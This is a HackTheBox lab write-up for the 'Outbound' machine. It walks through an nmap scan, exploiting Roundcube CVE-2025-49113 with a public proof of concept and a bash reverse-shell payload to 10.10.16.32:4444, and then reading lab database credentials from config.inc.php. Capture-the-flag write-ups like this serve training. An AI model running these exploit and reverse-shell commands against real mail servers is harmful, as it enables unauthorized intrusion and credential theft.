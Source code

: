 ```yaml
---
title: "Outbound HacktheBox Writeup"
date: "Jul 29, 2025"
description: "Detailed writeup for Outbound HacktheBox"
image: "/images/outbound.png"
---
```


Kicking off my return to HackTheBox after a long break, I stumbled upon an intriguing new machine—Outbound. Ready to dust off my hacking skills, I jumped straight into action by quickly setting up the VPN connection:

sudo openvpn outbound.ovpn


i poked at the box with an Nmap scan:

```bash
nmap -sC -sV -oN scan.txt 10.10.11.77
```
Here's the result of the scan:
![namp](/outbound.png)

I discovered two open ports: 22 (SSH) and 80 (HTTP).

Visiting http://10.10.11.77 redirected me to mail.outbound.htb, so I added the following line to my /etc/hosts file:

```bash
10.10.11.77 mail.outbound.htb
```

After refreshing the page, I reached a Roundcube webmail login. Interestingly, the login credentials were provided directly on the page:
![machine](/htb.png)
After logging in, I quickly noticed the Roundcube version had a vulnerability: CVE-2025-49113.
(Quick reminder: Always check the software version for known CVEs!)

Next, I started a listener on my attacker machine:

```bash
nc -nlvp 4444
```
Then, on the target, I cloned the exploit repository and executed the exploit:

```bash
git clone https://github.com/fearsoff-org/CVE-2025-49113.git
cd CVE-2025-49113
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.16.32/4444 0>&1'"
```
Now, with a shell as www-data amd you can see the exploit executed sucessfully 

![www-data](/htb2.png)
After this, I began looking around for important files and directories. Eventually, I came across the config directory located at:
```bash
 /var/www/html/roundcube/public_html/roundcube/config
``` 
Inside this directory, I found the config.inc.php file  

![Image](/config.png)

Now, since I had the database credentials clearly listed in the config.inc.php file, I could interact directly with the database. 
The credentials were as follows:

```bash
DB User: roundcube  
DB Pass: RCDBPass2025  
DB Name: roundcube  
```
